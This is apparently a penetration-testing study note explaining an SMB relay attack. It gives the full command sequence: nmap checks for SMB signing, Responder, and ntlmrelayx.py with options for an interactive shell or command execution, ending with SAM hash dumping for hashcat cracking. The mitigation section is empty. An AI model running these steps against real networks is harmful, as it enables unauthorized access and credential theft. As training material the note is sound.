

### SMB Relay Attack

Instead of capturing a hash, we reuse that hash in order to gain access.  If you're catching hashes but aren't able to crack it.  
&ensp;	SMB Signing must be disabled or not enforced on the target.  This is default on workstations, not default on servers.  
&ensp;	Relayed user credentials must be admin on machine for any real value.  

See if SMB is even on and what it's settings are.  
&ensp;	`sudo nmap --script=smb2-security-mode.nse -p445 10.0.0.10 -Pn`  
&ensp;	Port 445 is SMB  
&ensp;	IP is target IP  
&ensp;	This may also show when running a -A on initial scans  
&ensp;	"Message signing enabled but not required" is the message you're looking for  
&ensp;&ensp;		You can also run scripts against a network range  
Create your targets.txt file with the IP's that you gathered that return "enabled but not required"  
&ensp;	`mousepad targets.txt`  
Change Responder settings to turn SMB and HTTP off  
&ensp;	`sudo mousepad /etc/responder/Responder.conf`  
Run Responder  
&ensp;	`sudo responder -I eth0 -dPv` - Again, the Interface depends on what interface you're using, tun0 for VPN connections  
Run ntlmrelayx.py  
&ensp;	`ntlmrelayx.py -tf targets.txt -smb2support`  
&ensp;&ensp;		-tf   is for 'target file'  
&ensp;&ensp;&ensp;		targets.txt is the list of targets that have been determined to be vulnerable  
&ensp;&ensp;			-i   is optional but will attempt to get you a prompt (interactive)  
&ensp;&ensp;&ensp;				This will get you a port to bind to with `nc 127.0.0.1 <port>`  
&ensp;&ensp;			-c   is optional but will run a command upon connection `-c "whoami"`  
This should kick out the SAM, copy those hashes and go have some fun with hashcat  

Mitigation for this  
  

